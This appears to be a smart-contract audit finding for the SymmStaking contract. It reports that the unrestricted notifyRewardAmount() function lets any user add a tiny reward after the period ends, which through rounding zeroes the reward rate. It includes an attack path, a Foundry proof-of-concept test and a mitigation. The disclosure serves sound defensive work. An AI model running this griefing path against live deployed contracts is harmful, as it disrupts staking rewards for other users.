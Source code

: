 Alert Lavender Leopard

Medium

# Any user can set reward rate to 0

### Summary

The lack of access control on the `notifyRewardAmount()` function can lead to incorrect reward rate calculations and adversely affect the results of potentially dependent functions.

### Root Cause

In `SymmStaking.sol`, any user can call the `notifyRewardAmount()` function to add rewards. However, if a user calls this function after the reward duration has ended and adds a very small amount, a rounding error can occur in [_addRewardsForToken()#L370](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L369C3-L370C41). This can result in the reward rate being set to 0 and extending the reward period. As a consequence, the `getFullPeriodReward()` function may return inaccurate values, which could lead to issues if relied upon by other services.

### Internal Pre-conditions

1. reward period must be finished 

### External Pre-conditions

///

### Attack Path

1. user1 deposits tokens for staking 
2. admin adds rewards using `notifyRewardAmount()`
3. reward period finishes
4. user1 adds rewards using `notifyRewardAmount()`, but the reward amount is too little (lets say 1)
5. reward rate is set to 0 because of rounding
6. user2 calls `getFullPeriodReward()` to see the amount of rewards for the entire reward duration, but gets 0

### Impact

The incorrect functioning of the method may result in inaccurate values, potentially causing issues if other services depend on it.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {SymmStaking} from "../src/staking/SymmStaking.sol";
import {MockERC20} from "../src/mock/MockERC20.sol";

contract MockUSDC is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 100_000_000 * 10 ** 6);
    }

    function decimals() public view override returns (uint8) {
        return 6;
    }
}

contract MyTest is Test {
    address public admin;
    address public user1;
    address public user2;
    MockUSDC public usdc;
    MockERC20 public symm;
    SymmStaking public symmStaking;

    function setUp() public {
        admin = makeAddr("admin");
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
        vm.deal(admin, 1000 ether);
        vm.deal(user1, 1000 ether);
        vm.deal(user2, 1000 ether);

        // creating USDC and SYMM tokens and transferring them to users
        vm.startPrank(admin);
        usdc = new MockUSDC("USDC", "USDC");
        usdc.transfer(user1, 1000 * 10 ** 6);
        usdc.transfer(user2, 1000 * 10 ** 6);
        symm = new MockERC20("SYMM", "SYMM");
        symm.transfer(user1, 1000 * 10 ** 18);
        symm.transfer(user2, 1000 * 10 ** 18);

        // creating and initializing SymmStaking contract
        symmStaking = new SymmStaking();
        symmStaking.initialize(admin, address(symm));
        symmStaking.configureRewardToken(address(usdc), true);
        symmStaking.configureRewardToken(address(symm), true);
        usdc.approve(address(symmStaking), type(uint256).max);
        symm.approve(address(symmStaking), type(uint256).max);
        vm.stopPrank();
    }

    function test__TestRate0() public {
        // user1 deposits SYMM tokens to stacking
        vm.startPrank(user1);
        symm.approve(address(symmStaking), type(uint256).max);
        usdc.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(1000 * 10 ** 18, user1);
        vm.stopPrank();

        // admin add rewards
        vm.startPrank(admin);
        address[] memory addresses = new address[](2);
        addresses[0] = address(usdc);
        addresses[1] = address(symm);
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 10000 * 10 ** 6;
        amounts[1] = 10000 * 10 ** 18;
        symmStaking.notifyRewardAmount(addresses, amounts);
        vm.stopPrank();

        // a week passes
        vm.warp(604800);

        // user1 adds 1 as a reward
        vm.startPrank(user1);
        address[] memory addresses2 = new address[](1);
        addresses2[0] = address(usdc);
        uint256[] memory amounts2 = new uint256[](1);
        amounts2[0] = 1;
        symmStaking.notifyRewardAmount(addresses2, amounts2);
        vm.stopPrank();

        // getFullPeriodReward returns 0
        assertEq(symmStaking.getFullPeriodReward(address(usdc)), 0);

        //lastTimeRewardApplicable returns current block.timestamp, that means periodFinish was prolonged
        vm.warp(604812);
        assertEq(symmStaking.lastTimeRewardApplicable(address(usdc)), 604812);
    }
}

```

### Mitigation

Restrict access to notifyRewardAmount() so that only authorized users can add rewards.